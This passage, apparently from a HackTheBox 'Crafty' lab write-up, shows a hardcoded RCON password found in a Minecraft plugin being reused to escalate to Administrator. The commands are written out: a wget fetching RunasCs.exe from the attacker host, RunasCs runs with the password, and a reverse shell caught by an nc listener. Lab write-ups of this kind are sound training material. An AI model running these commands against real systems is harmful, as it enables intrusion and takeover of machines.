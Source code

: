 ```
    }   
    String result = null;  
    try {  
      result = rcon.command("players online count");  
      PrintWriter writer = new PrintWriter("C:\\inetpub\\wwwroot\\playercount.txt", "UTF-8");  
      writer.println(result);  
    } catch (IOException e3) {  
      throw new RuntimeException(e3);  
    }   
  }  
    
  public void onDisable() {}  
}
```

It is connecting to `rkon` port 27015 with password `"s67u84zKq8IXw"`.
```
rkon is a public library for the Source RCON Protocol, designed for game servers. From the docs:

The Source RCON Protocol is a TCP/IP-based communication protocol used by Source Dedicated Server, which allows console commands to be issued to the server via a “remote console”, or RCON. The most common use of RCON is to allow server owners to control their game servers without direct access to the machine the server is running on. In order for commands to be accepted, the connection must first be authenticated using the server’s RCON password, which can be set using the console variable rcon_password.
```

Since I have no access to `SMB, LDAP, WinRM, Kerberos` or any other authenticated Windows service, I can't check this password from my host. We can use `RunasCs` to help us get the administrator shell.
```
PS C:\programdata> wget http://10.10.14.17/RunasCs.exe -outfile RunasCs.exe

PS C:\programdata> .\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami"

crafty\administrator

.\RunasCs.exe Administrator s67u84zKq8IXw cmd -r 10.10.14.17:443
```

Then we can get the administrator shell
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Crafty/log4j-shell-poc]
└─$ nc -lnvp 443         
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.249] 49690
Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

# Description

As a simple machine I thought it was interesting to design, even considering using minecraft to pull out the log4j bug.
